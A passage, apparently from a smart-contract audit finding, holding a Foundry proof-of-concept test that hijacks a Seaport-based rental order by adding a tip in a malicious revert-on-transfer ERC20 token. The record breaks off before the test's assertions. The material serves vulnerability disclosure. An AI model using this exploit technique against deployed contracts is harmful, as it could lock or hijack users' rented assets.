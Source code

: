 ```solidity
}
```

And the test:
```solidity
import {
    Order,
    OrderParameters,
    ConsiderationItem,
    ItemType,
    FulfillmentComponent,
    Fulfillment,
    ItemType as SeaportItemType
} from "@seaport-types/lib/ConsiderationStructs.sol";
import {MockRevertOnTransferERC20} from "@test/mocks/tokens/weird/MockRevertOnTransferERC20.sol";

    function test_Vuln_OrderHijackingByTippingMaliciousERC20() public {
        // create a BASE order
        createOrder({
            offerer: alice,
            orderType: OrderType.BASE,
            erc721Offers: 1,
            erc1155Offers: 0,
            erc20Offers: 0,
            erc721Considerations: 0,
            erc1155Considerations: 0,
            erc20Considerations: 1
        });

        // finalize the order creation
        (
            Order memory order,
            bytes32 orderHash,
            OrderMetadata memory metadata
        ) = finalizeOrder();

        // create an order fulfillment
        createOrderFulfillment({
            _fulfiller: bob,
            order: order,
            orderHash: orderHash,
            metadata: metadata
        });
        // ------- Identical to existing "test_Success_Rent_BaseOrder_ERC721" until here -------
        
        MockRevertOnTransferERC20 exploitErc20 = new MockRevertOnTransferERC20();
        // Seaport enforces non-zero quantities + approvals
        exploitErc20.mint(bob.addr, 100);
        vm.prank(bob.addr);
        exploitErc20.approve(address(conduit), type(uint256).max);

        // we acccess baseOrder.advancedOrder and add a consideration item
        OrderParameters storage params = ordersToFulfill[0].advancedOrder.parameters;
        params.consideration.push(ConsiderationItem({
            itemType: ItemType.ERC20,
            token: address(exploitErc20),
            identifierOrCriteria: 0,
            startAmount: 100,
            endAmount: 100,
            recipient: payable(address(ESCRW))
        }));

        // finalize the base order fulfillment
        RentalOrder memory rentalOrder = finalizeBaseOrderFulfillment();
```